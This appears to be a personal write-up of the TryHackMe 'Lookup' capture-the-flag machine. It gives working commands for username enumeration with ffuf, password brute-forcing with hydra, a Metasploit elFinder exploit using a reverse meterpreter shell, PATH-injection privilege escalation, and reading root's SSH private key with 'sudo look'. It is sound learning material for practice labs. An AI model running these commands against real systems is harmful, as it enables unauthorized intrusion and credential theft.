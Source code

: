# TryHackMe - Lookup (Easy)

Reconnaissance:
I started with standard scanning:


sudo nmap -sC -sV -oN lookup.thm xxxx
Open ports:

22 (SSH)

80 (HTTP)

I opened the website — there was a login form. I first tried admin:admin. The login worked, but the password was incorrect, which meant the username exists.

I immediately ran Hydra to brute-force the password:


hydra -l admin -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
The result was empty.

Then I decided to check other users using ffuf:


ffuf -u http://xxxx/login.php -d "username=FUZZ&password=test" -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -mc 200
Found a second user: jose.

Gaining Access
Brute-forcing the password for jose:


hydra -l jose -P /usr/share/wordlists/rockyou.txt xxxx http-post-form "/login.php:username=^USER^&password=^PASS^:Incorrect"
Password found: jose:password123.

After logging in, the system suggested adding a new host:


echo "xxxx files.lookup.thm" | sudo tee -a /etc/hosts
Went to http://files.lookup.thm and saw the elFinder file manager. Checked its version and found an exploit using searchsploit elfinder.

In msfconsole, I used the module:


msfconsole
use exploit/multi/http/elfinder_php_connector_exec
set RHOSTS xxxx
set TARGETURI /elfinder/php/connector.minimal.php
set payload php/meterpreter/reverse_tcp
set LHOST tun0
run
Gained access as www-data.

Privilege Escalation — Switching to user think
Ran linpeas.sh:


./linpeas.sh
It showed the binary pwm running as root, which calls id and saves the output to ~/.passwords.

Tried a PATH injection:


echo "id_think" > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
After running the binary, I found the password for user think in ~/.passwords.

Logged in:


su think
This step was tricky but helped understand how PATH injection can reveal passwords.

Privilege Escalation — Root
Checked sudo privileges:


sudo -l
It turned out that think can run the binary look as root.

On GTFOBins, I found a way to use it to read files:


sudo look '' /root/.ssh/id_rsa
Copied the root key, saved it:


nano id_rsa
chmod 600 id_rsa
ssh -i id_rsa root@xxxx
Gained root access.

Additional Attempts
I tried CVE-2021-3560 (mentioned in linpeas report), but it didn’t work. The main working path was through look and the root private key.

New Knowledge and Commands
ffuf has special user lists.

For brute-force, it’s important to specify the exact file, e.g., login.php.

Practical experience with PATH injection via export PATH=/tmp:$PATH.

Experience with sudo -l and GTFOBins.

Using private keys to gain root access via SSH.

Conclusion
Managed to complete the machine:

Reconnaissance: nmap, ffuf, hydra
Exploitation: elFinder via msfconsole
Privilege Escalation: PATH injection → user think
Privileges: sudo look → root via SSH key

Although there were challenges (especially understanding PATH injection and password brute-forcing), the experience was very useful.
